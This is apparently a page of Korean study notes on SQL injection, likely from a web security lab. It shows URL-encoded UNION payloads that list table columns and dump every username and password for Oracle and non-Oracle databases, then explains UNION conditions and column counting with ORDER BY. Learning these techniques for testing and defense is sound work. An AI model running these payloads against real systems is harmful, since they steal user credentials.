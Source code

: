 
- **칼럼** **조사** 

- \<non-oracle> 
  - `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='USERS_ABCDEF'--` 

- \<oracle> 
  - `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USER_ABCDF'--` 

- 칼럼의 이름을 보고, username, password가 있는 것을 확인 



- **데이터** **조사** 

- \<non-oracle> 
  - `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--` 

- \<oracle> 
  - `'+UNION+SELECT+username,password+FROM+USER_ABCDF--` 

칼럼의 데이타를 다 가져온다. 

이렇게 모든 유저의 아이디, 비번을 알 수 있다. 



## 2.3. UNION attack

UNION이란, 기존 쿼리에 추가적인 SELECT를 덧붙이는 것 

 

**예시** 

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2 
```

다른 테이블의 데이타를 가져올 수 있다. 
 

**조건** 

- 각각의 쿼리는 **같은 수의 칼럼**을 리턴해야한다. 

- **칼럼의 타입이 서로 호환**이 되야 한다. 

 

**칼럼수** **알아내는** **방법**  

1. ORDER BY 

기존 쿼리가 다음과 같다. 

```sql
SELECT * FROM products WHERE category='Gifts' 
```

여기에 ORDER BY로 특정 칼럼으로 정렬하도록 한다. 

칼럼의 이름을 모르기에 index로 정렬을 한다. 

```sql
ORDER BY 1-- => 첫번째 칼럼으로 정렬 
ORDER BY 2-- => 두번째 칼럼으로 정렬 
```
